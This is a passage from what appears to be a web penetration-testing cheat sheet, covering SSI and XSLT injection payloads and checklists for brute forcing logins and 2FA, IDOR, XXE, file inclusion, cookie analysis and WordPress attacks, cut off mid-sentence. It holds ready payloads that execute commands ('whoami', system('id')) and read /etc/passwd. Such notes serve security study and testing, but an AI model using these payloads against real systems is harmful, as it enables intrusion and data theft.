<table data-header-hidden><thead><tr><th width="214"></th><th></th></tr></thead><tbody><tr><td>Print variables</td><td><code>&#x3C;!--#printenv --></code></td></tr><tr><td>Change config</td><td><code>&#x3C;!--#config errmsg="Error!" --></code></td></tr><tr><td>Print specific variable</td><td><code>&#x3C;!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" --></code></td></tr><tr><td>Execute command</td><td><code>&#x3C;!--#exec cmd="whoami" --></code></td></tr><tr><td>Include web file</td><td><code>&#x3C;!--#include virtual="index.html" --></code></td></tr></tbody></table>

<figure><figcaption></figcaption></figure>

#### XSLT Injection <a href="#xslt-injection" id="xslt-injection"></a>

> Info
>
> _Occurs when user input is used in an XSLT transformation without validation, allowing attackers to inject malicious XSLT code to read files, execute code, or manipulate output._

<table data-header-hidden><thead><tr><th width="214"></th><th></th></tr></thead><tbody><tr><td><strong>Information Disclosure</strong></td><td>&#x3C;--------------------------------------------------------------------</td></tr><tr><td></td><td><code>&#x3C;xsl:value-of select="system-property('xsl:version')" /></code></td></tr><tr><td></td><td><code>&#x3C;xsl:value-of select="system-property('xsl:vendor')" /></code></td></tr><tr><td></td><td><code>&#x3C;xsl:value-of select="system-property('xsl:vendor-url')" /></code></td></tr><tr><td></td><td><code>&#x3C;xsl:value-of select="system-property('xsl:product-name')" /></code></td></tr><tr><td></td><td><code>&#x3C;xsl:value-of select="system-property('xsl:product-version')" /></code></td></tr><tr><td><strong>LFI</strong></td><td>&#x3C;--------------------------------------------------------------------</td></tr><tr><td></td><td><code>&#x3C;xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" /></code></td></tr><tr><td></td><td><code>&#x3C;xsl:value-of select="php:function('file_get_contents','/etc/passwd')" /></code></td></tr><tr><td><strong>RCE</strong></td><td>&#x3C;--------------------------------------------------------------------</td></tr><tr><td></td><td><code>&#x3C;xsl:value-of select="php:function('system','id')" /></code></td></tr></tbody></table>

<figure><figcaption></figcaption></figure>

***

## 6. Login Brute Forcing && Broken Authentication <a href="#login-brute-forcing--broken-authentication" id="login-brute-forcing--broken-authentication"></a>

> _Check_ [_Login Brute Forcing_](login-brute-forcing/) _🦏 and_ [_Broken Authentication Theory_](broken-authentication/) _🐛 and search further to exploit the login brute forcing attack._

* Always check for default credentials (like `admin:admin`, `root:root`, `admin:Administrator`…)
  * To do so, you can use the website [CIRT](https://www.cirt.net/passwords) or the wordlists in [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials) as well as the [SCADA repository](https://github.com/scadastrangelove/SCADAPASS/tree/master)
* Test for **messages** that the app gives (testing for a non existent user gives a different message than testing an existent one or testing for a bad password…).
  * If you find a valid username, always check the “_Forgot password_” section and try to break it.
* With that response you can use tools like [Hydra ](login-brute-forcing/hydra.md)🐍with a wordlist.
  * You can create **custom wordlist** for both usernames and passwords using _CUPP_, _Username Anarchy_ and more.
* If you find a[ **2FA** authentication](broken-authentication/authentication-bypasses.md) try to bruteforce it (if it’s for example a 4 digit code or a 4 letter word).

***

## 7. Web (Services) & API Attacks <a href="#web-services--api-attacks" id="web-services--api-attacks"></a>

> _Check_ [_Web Attacks_ ](web-attacks/)_🐊 and_[ _Web Services & API Fundamentals_](web-service-and-api-attacks/) _🧨 and search further to exploit the web or API attack._

* Check for **IDORs** in parameters (like `id=`, `user_id=`, `token=`…)
  * If you find one, you can then inspect the hidden endpoints of an API and maybe guess other username tokens and get admin access.
* Test for **XXE** if some `xml` code is being uploaded to the application.
  * This can lead to Local File Disclosures and RCE.
* If there’s an **API**, test all possible API attacks contained in [Web Services & API Fundamentals](web-service-and-api-attacks/) 🧨

***

## 8. File Inclusion <a href="#file-inclusion" id="file-inclusion"></a>

> _Check_ [_File Inclusion Theory_](file-inclusion/) _🍥 and search further to exploit the file inclusion attack._

* Find all the **fields** that could potentially load a file (like `?render=`, `?file=`, `?upload=`…)
* Test for **LFI** like `../../../../etc/passwd` (find out other payloads in [LFI Jhaddix wordlist](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) or consult other wordlists in [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)).
  * You can **automate** this with Ffuf 🐳 or other tools.
* If you **can’t get the file**, but you see some kind of **permissions error or message**, you can use _**filters**_ to get a specific file and extract info or hidden functionalities from that file.
* Remember that **if cookies are present**, **log poisoning** could be an interesting option to test for.
* You can escalate it to **RCE**.

## 9. Session security <a href="#session-security" id="session-security"></a>

> _Check_ [_Session Security Theory_ ](session-security/)_🦤 and search further to exploit the file cookie attack._

* **Identify** the cookie and its type (md5, base64, PHP, JWT token…).
  * Try to decode the cookie if possible.
* Check for **patterns** (like the cookie is blablabla\_user1\_pass1 encoded in base64…).

## 10. Hacking Wordpress <a href="#hacking-wordpress" id="hacking-wordpress"></a>

> _Check_ [_Hacking Wordpress_](hacking-wordpress/) _🍅 and search further to exploit the Wordpress._

### Reconnaissance <a href="#reconnaissance" id="reconnaissance"></a>

* Always launch WPScan
  * You can brute force the usernames and passwords with WPScan if you want
* Search for hidden endpoints.
* Take note of the **plugins** and **themes** being use and analyze all possible **vulnerabilities** they have.
  * Also, search yourself for that plugin/theme specific CVEs
* Test and exploit for possible vulnerabilities.

### Gaining internal access (once gained admin privileges) <a href="#gaining-internal-access-once-gained-admin-privileges" id="gaining-internal-access-once-gained-admin-privileges"></a>

* Use a **faulty** Theme or Plugin to get a shell (take advantage of a bad configured functionality
